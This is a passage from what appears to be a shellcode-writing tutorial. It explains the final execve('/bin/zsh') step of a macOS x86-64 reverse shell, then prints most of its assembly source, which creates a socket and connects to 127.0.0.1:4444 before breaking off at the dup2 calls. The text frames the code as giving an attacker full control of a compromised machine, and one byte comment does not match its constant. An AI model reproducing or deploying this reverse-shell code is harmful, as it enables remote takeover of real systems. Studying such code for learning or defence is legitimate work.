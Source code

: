 What's happening in this last part of our code? The `xor rdx,rdx` nullifies `rdx`, which is used for `argv[1]` (the second argument to `execve()`). Then, the program prepares the arguments for the `execve()` system call, which is used to launch a program (`/bin/zsh` in this case).
Then, `rdi` holds the path to the shell (`/bin/zsh`), and `rsi` holds the arguments for the shell (just the path and `NULL`). Finally, the `syscall` instruction then triggers `execve()` to run the shell.     

This step is final step: it runs a new shell on the compromised machine, providing the attacker with full control over the system.      

If we summarise our full code, it does the following:    

It creates a socket connection to a remote machine.      
It establishes the connection.      
It duplicates the socket file descriptor for `stdin`, `stdout`, and `stderr`.      
It executes a shell (`/bin/zsh`) to provide the attacker with control over the system.      

So, full source code for the first example is looks like this (`hack.asm`):      

```nasm
bits 64

global start

start:
   ; socket(AF_INET, SOCK_STREAM,0);
   push 0x2             ; store 0x2 on stack
   pop rdi              ; pop this value into rdi -> AF_INET

   push 0x1             ; store 0x1 on stack
   pop rsi              ; pop this value into rsi -> SOCK_STREAM

   xor rdx,rdx          ; null out rdx -> 0x00

   push 97              ; socket() syscall - 97
   pop rax
   bts rax,25
   syscall

   mov r9,rax           ; save socket fd in r9

   ; connect(sockt, (struct sockaddr *) &revsockaddr,sizeof(revsockaddr));
   mov rdi,r9           ; rdi -> socket file descriptor

   ; sockaddr
   xor rsi,rsi          ; null out rsi
   push rsi             ; sin_zero

   mov rsi,0x0100007F5C110201 ; 0x01 0x02 0x11 0x5C 0x0A 0x00 0x02 0x02
   dec rsi              ; sin_len = 0x00 after decrement
   push rsi
   push rsp
   pop rsi

   ;; sizeof(addr)
   push 0x10            ; place 0x10 (16) on stack
   pop rdx              ; rdx -> sizeof struct -> 16 bytes -> 0x10

   ;; syscall connect()
   push 98             ; connect() syscall - 98
   pop rax
   bts rax,25
   syscall


   ; dup2(connfd,i)
```